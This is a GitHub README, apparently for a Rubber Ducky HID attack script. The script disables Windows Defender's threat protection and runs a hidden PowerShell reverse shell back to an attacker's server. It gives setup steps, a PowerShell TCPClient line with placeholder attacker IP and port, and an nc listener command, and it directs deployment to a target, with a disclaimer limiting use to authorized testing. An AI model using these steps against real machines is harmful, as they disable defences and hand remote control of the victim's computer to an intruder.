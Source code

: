 

# Reverse Shell Payload Script

This repository contains a Rubber Ducky script that automates disabling Windows Defender and launching a PowerShell reverse shell to establish a persistent connection with a remote server. This script is intended for educational and authorized security testing purposes only.

## **Disclaimer**

> ⚠️ This tool is for ethical hacking and penetration testing **with permission** only. Unauthorized use of this script against a system without consent is strictly prohibited. Misuse may lead to legal consequences.

## **Features**

- Disables Windows Security (specifically, Virus & Threat Protection)
- Executes a hidden PowerShell reverse shell command to connect to a remote server

## **Requirements**

- USB Rubber Ducky (or similar HID device)
- Target system with PowerShell (Windows OS)
- Network listener on the attacker's machine (using `nc`, `socat`, or similar)

## **Setup**

1. **Edit the Payload**:
   - Replace the `IP` and `PORT` placeholders in the PowerShell command with your remote server’s IP and chosen port.

   ```powershell
   $client = New-Object System.Net.Sockets.TCPClient('IP', PORT)
   ```

2. **Prepare Listener**:
   - On your remote machine, set up a listener to catch the incoming connection:
     ```bash
     nc -lvnp PORT
     ```
   
3. **Convert and Deploy**:
   - Convert the script to the Rubber Ducky binary format, if needed, and deploy it to your target.

## **Usage**

1. Plug in the HID device on the target machine.
2. The script will:
   - Disable Windows Security
   - Execute a hidden PowerShell command for the reverse shell

3. On successful execution, the target device will initiate a reverse shell connection to your specified IP and port.
